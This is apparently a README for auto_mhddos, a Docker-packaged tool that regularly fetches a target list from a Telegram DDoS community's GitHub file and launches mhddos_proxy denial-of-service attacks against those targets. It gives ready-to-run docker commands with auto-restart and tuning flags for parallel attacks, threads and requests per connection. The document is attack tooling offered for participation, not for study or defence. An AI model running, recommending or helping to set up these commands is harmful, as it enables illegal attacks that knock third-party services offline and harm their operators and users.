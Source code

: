 ### 👉 [Українська](./README.uk.md)

### 👉 [Русский](./README.ru.md)

# [auto_mhddos](https://github.com/nn1k1kvn/auto_mhddos) is an automation tool for [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)

This tool periodically fetches
the [targets](https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner_targets)
from the [Ukrainian Reaper DDoS](https://t.me/ukrainian_reaper_ddos) community and launches attacks on them. You don't need to manually restart a container.

## Installing

Install Docker:

- [Windows](https://docs.docker.com/desktop/windows/install/)
- [Linux](https://docs.docker.com/engine/install/#server)
- [Mac](https://docs.docker.com/desktop/mac/install/)

NOTE: depending on the installation method, you might or might not need to run docker commands as a
root (`sudo docker run ...`).

## Usage

### Run in background

```shell
docker run -dit --name auto_mhddos --restart unless-stopped --pull always ghcr.io/nn1k1kvn/auto_mhddos:latest
```

### See logs

```shell
docker logs -f auto_mhddos
```

### Stop

```shell
docker rm -f auto_mhddos
```

### Configuration

Additionally, you can pass several parameters when running a container:

#### `--parallel 2`

Default: `1`

How many parallel attacks to run at once. It's better to increase it incrementally (`1`, `2`, `3`) while monitoring your CPU and Memory usage to find the optimal value.

#### Supports all other params from the [mhddos_proxy's docs](https://github.com/porthole-ascend-cinnamon/mhddos_proxy#usage) (except targets and `-c`)

### Example

```shell
docker run -dit --name auto_mhddos --restart unless-stopped --pull always ghcr.io/nn1k1kvn/auto_mhddos:latest --parallel 2 -t 2000 --rpc 1000
```
